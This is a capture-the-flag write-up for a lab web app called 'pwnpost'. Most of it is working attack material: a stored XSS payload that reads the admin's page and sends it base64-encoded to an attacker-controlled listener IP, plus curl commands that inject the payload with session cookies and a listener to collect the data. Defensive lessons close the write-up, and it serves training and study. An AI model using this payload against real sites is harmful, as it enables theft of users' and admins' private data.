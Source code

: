## 🛡️ Writeup: XSS Challenge – Stealing Admin Draft Using Stored XSS

### 📘 Challenge Summary

We were given a web app named **pwnpost** that allows users to post drafts with an optional publish checkbox. The key challenge is to **steal a flag stored in a draft post created by the `admin` user**. The admin periodically logs in to view drafts, and the flag is only accessible in their session.

---

## 🕳️ Vulnerabilities Identified

### 1. **Stored XSS (Cross-Site Scripting)**

* The draft submission form accepts **unescaped HTML/JavaScript**.
* When the draft is viewed by another user (e.g. admin), the script is executed.
* This opens the door for persistent XSS, where the attacker can inject malicious JavaScript.

### 2. **No Output Encoding / Sanitization**

* The server does **not sanitize or encode the user input** in draft content before rendering it in HTML.
* This leads to JavaScript being executed directly when the admin loads the draft.

---

## 🚩 Goal

**Exfiltrate the draft contents (flag) visible only to the admin**.

---

## 🛠️ Steps to Solve

### ✅ Step 1: Create a malicious payload that will:

* Fetch the homepage (which contains the draft with the flag when viewed by admin).
* Base64 encode the HTML.
* Send it to our listener server (e.g., running with Python or `nc`).

**Payload:**

```html
<script>
fetch("/") 
  .then(res => res.text()) 
  .then(text => { 
    fetch("http://<your-IP>:8000/?flag=" + btoa(text)); 
  });
</script>
```

Replace `<your-IP>` with your real IP (use `ip a` or `curl ifconfig.me`).

---

### ✅ Step 2: Host a listener server to receive the flag

```bash
# Simple listener in Python
python3 -m http.server 8000
```

Or if you want to view requests:

```bash
sudo tcpdump -i any port 8000
```

---

### ✅ Step 3: Inject Payload Using `curl`

Here's how to submit the malicious draft from terminal using `curl`:

```bash
curl -X POST http://<TARGET>/draft \
  -d 'content=<script>fetch("/") .then(res => res.text()) .then(text => { fetch("http://10.49.150.47:8000/?flag=" + btoa(text)); });</script>' \
  -d 'publish=on' \
  -b 'session=<your-session-if-needed>' \
  -v
```

> Replace `<TARGET>` with the vulnerable server (e.g., `127.0.0.1:5000` or as assigned), and `10.49.150.47` with your attacker server IP.

If authentication is needed, perform login first using curl and store cookies:

```bash
# Step 1: Log in and store cookies
curl -c cookies.txt -X POST http://<TARGET>/login -d 'username=hacker&password=hacker'

# Step 2: Inject using stored cookies
curl -b cookies.txt -X POST http://<TARGET>/draft \
  -d 'content=<script>fetch("/") .then(res => res.text()) .then(text => { fetch("http://10.49.150.47:8000/?flag=" + btoa(text)); });</script>' \
  -d 'publish=on'
```

---

### ✅ Step 4: Wait for the Admin

Once the payload is submitted, the admin (simulated bot) will log in, view drafts, and execute the payload. You’ll receive the flag at:

```
http://10.49.150.47:8000/?flag=...
```

Use `base64 -d` to decode the flag if necessary.

---

## ✅ Final Result

From the decoded HTML, the following line shows the flag:

```html
pwn.college{...}
```

---

## 🔐 Lessons Learned

* **Always sanitize user input**, especially in blog/draft/comment systems.
* **Content Security Policy (CSP)** can help prevent loading external scripts.
* **HttpOnly** cookies can prevent JS from accessing session tokens, but XSS can still steal data rendered on the page.
* Even seemingly harmless features like drafts can be abused to run malicious code if not sanitized.

---